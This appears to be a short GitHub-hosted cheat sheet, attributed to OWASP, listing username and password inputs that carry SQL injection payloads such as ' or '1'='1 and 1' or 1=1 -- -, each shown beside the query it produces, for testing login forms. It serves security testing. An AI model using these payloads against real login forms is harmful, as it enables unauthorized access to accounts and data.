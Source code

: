 # Login Form SQL Injection Testing
Below is the cheat sheet provided by OWASP from SecHow.com. This can be used to test a username or password for simple SQL injection vulnerabilities.

| User name | Password | SQL Query |
|-----------|----------|-----------|
| tom | tom	| SELECT * FROM users WHERE name='tom' and password='tom' |
| tom | ' or '1'='1 | SELECT * FROM users WHERE name='tom' and password='' or '1'='1' | 
| tom | ' or 1='1 | SELECT * FROM users WHERE name='tom' and password='' or 1='1' |
| tom	| 1' or 1=1 -- - | SELECT * FROM users WHERE name='tom' and password='' or 1=1-- -' |
| ' or '1'='1	| ' or '1'='1	| SELECT * FROM users WHERE name='' or '1'='1' and password='' or '1'='1' |
| ' or ' 1=1	| ' or ' 1=1	| SELECT * FROM users WHERE name='' or ' 1=1' and password='' or ' 1=1' |
| 1' or 1=1 -- -	| blah	| SELECT * FROM users WHERE name='1' or 1=1 -- -' and password='blah' |

